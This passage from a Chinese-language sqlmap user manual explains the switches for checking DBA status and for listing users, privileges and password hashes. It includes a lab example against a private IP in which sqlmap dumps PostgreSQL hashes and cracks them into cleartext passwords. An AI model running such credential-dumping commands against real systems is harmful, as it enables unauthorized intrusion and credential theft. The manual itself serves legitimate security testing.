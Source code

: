 ### 检测当前会话用户是否为数据库管理员

开关：`--is-dba`

可以检测当前 DBMS 会话用户是否为数据库管理员，也称为 DBA。如果是，sqlmap 将返回 `True`，否则返回 `False`。

### 列出 DBMS 所有用户

开关：`--users`

如果当前会话用户对包含 DBMS 用户信息的系统表有读取权限，可以枚举用户列表。

### 列出和破解 DBMS 用户的密码哈希

开关：`--passwords`

如果当前会话用户对包含 DBMS 用户密码信息的系统表有读取权限，则可以枚举每个 DBMS 用户的密码哈希值。sqlmap 将会枚举所有用户，及一一对应的用户密码哈希。

针对 PostgreSQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
passwords -v 1

[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt] 
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```

以上例子中，sqlmap 不仅枚举了 DBMS 用户及其密码，而且识别出密码哈希格式属于PostgreSQL，并询问用户是否使用字典文件进行散列测试，并识别出了用户 `postgres` 的明文密码，它通常是 DBA，被识别出的还有用户 `testuser` 的密码。

对于可以枚举用户密码哈希的 DBMS 都已实现了此功能，包括 Oracle 和 Microsoft SQL Server 2005 及后续版本。

你还可以使用 `-U` 选项来指定要枚举的特定用户，并破解其对应密码哈希。如果你提供 `CU` 作为用户名，它会将其视为当前用户的别名，并将获取此用户的密码哈希值。

### 列出 DBMS 所有用户权限

开关：`--privileges`

如果当前会话用户对包含 DBMS 用户信息的系统表有读取权限，则可以枚举出每个 DBMS 用户的权限。根据权限信息，sqlmap 还将显示出哪些是数据库管理员。
